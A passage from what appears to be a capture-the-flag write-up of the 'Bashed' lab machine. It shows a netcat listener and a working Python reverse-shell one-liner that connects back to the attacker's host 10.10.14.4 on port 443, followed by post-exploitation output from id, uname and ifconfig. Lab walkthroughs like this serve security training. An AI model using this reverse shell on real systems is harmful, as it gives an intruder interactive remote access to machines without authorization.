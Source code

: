 2\. We use a Python reverse shell to obtain interactive access on this system:  
``` {.python .numberLines}
nc -nlvp 443
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

![writeup.exploitation.steps.2.1](./screenshot06.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data@bashed> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed>  
www-data@bashed> uname
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@bashed>  
www-data@bashed> ifconfig
ens33   Link encap:Ethernet  HWaddr 00:50:56:b9:44:62  
        inet addr:10.10.10.68  Bcast:10.10.10.255  Mask:255.255.255.255
        inet6 addr: dead:beef::250:56ff:feb9:4462/64 Scope:Global
        inet6 addr: fe80::250:56ff:feb9:4462/64 Scope:Link
        UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
        RX packets:83524 errors:0 dropped:332 overruns:0 frame:0
        TX packets:78785 errors:0 dropped:0 overruns:0 carrier:0
        collisions:0 txqueuelen:1000 
        RX bytes:5305396 (5.3 MB)  TX bytes:8408691 (8.4 MB)

lo      Link encap:Local Loopback  
        inet addr:127.0.0.1  Mask:255.0.0.0
        inet6 addr: ::1/128 Scope:Host
        UP LOOPBACK RUNNING  MTU:65536  Metric:1
        RX packets:444689 errors:0 dropped:0 overruns:0 frame:0
        TX packets:444689 errors:0 dropped:0 overruns:0 carrier:0
```